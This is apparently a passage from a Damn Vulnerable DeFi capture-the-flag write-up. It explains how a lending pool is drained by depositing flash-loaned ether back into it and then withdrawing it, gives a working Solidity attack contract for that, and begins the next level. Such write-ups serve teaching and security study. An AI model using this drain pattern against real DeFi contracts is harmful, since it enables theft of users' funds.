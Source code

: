 ### Solution

If we make a flash loan, and `deposit()` the funds two things happen:

1. We comply with `(address(this).balance < balanceBefore)`, so the flash loan won't revert.
2. At `deposit()`, This `balances[msg.sender] += msg.value` will execute.

As `withdraw()` only checks the `balances[]` mapping, we will get the amount recorded there.

The solution then is

```solidity
function attack() external {
  // we borrow the funds, the flashLoan() function will
  // call execute() and we deposit() these funds in there,
  // incrementing our balance in the pool.
  pool.flashLoan(1_000 ether);

  // as withdraw() only checks the balances[] mapping,
  // we will get the amount recorded there.
  pool.withdraw();

  // pass the funds to the player
  (bool success,) = msg.sender.call{value: 1_000 ether}("");
  success;
}

function execute() external payable {
  pool.deposit{value: msg.value}();
}
```

Implement `receive() external payable {}` in your contracts.

### References

* https://solidity-by-example.org/hacks/re-entrancy/

## 05 The Rewarder

To beat this level, we need to comply with

```solidity
// Users should get neglegible rewards this round
// ...

// Rewards must have been issued to the player account
// ...

// The amount of rewards earned should be close to total available amount
// ...

// Balance of DVT tokens in player and lending pool hasn't changed
// ...
```

